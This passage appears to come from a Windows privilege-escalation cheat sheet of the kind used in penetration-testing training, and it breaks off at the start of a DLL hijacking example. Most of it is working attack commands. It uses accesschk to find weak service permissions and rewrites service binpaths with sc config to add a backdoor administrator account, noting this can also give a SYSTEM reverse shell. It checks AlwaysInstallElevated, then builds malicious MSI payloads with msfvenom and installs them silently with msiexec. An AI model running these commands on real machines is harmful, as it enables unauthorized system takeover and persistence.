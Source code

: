     accesschk.exe -uwcqv "Authenticated Users" * /accepteula
    accesschk.exe -qwcu "Users" *
    accesschk.exe -qwcu "Everyone" *

You must get a **'RW' with SERVICE_ALL_ACCESS**

    sc qc <service-name>
    sc config <service-name> binpath= "net user virgil P@ssword123! /add"
    sc config upnphost obj=".\LocalSystem" password=""
    sc stop <service-name>
    sc start <service-name>
    sc config <service-name> binpath= "net localgroup Administrators virgil /add"
    sc stop <service-name>
    sc start <service-name>

This should add a new user to administrators group. Try it when you have upnphost service.

> This can also be used to get reverse shell as SYSTEM

## Elevated installs

If the two registry values are set to 1, we can install a malicious msi file.

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Generate shell code:

    msfvenom -p windows/adduser USER=virgil PASS=P@ssword123! -f msi -o exploit.msi
    msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > exploit.msi

Running the malicious MSI:

    msiexec /quiet /qn /i C:\Users\Virgil\Downloads\exploit.msi


## DLL Hijacking

If an application loads a DLL and it does not give a fully qualified path, Windows will search for the dll in a particular order and execute it if it finds it.

1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

### Example

    # This is on Windows 7 as low privilege user1.

    C:\Users\user1\Desktop> echo %username%
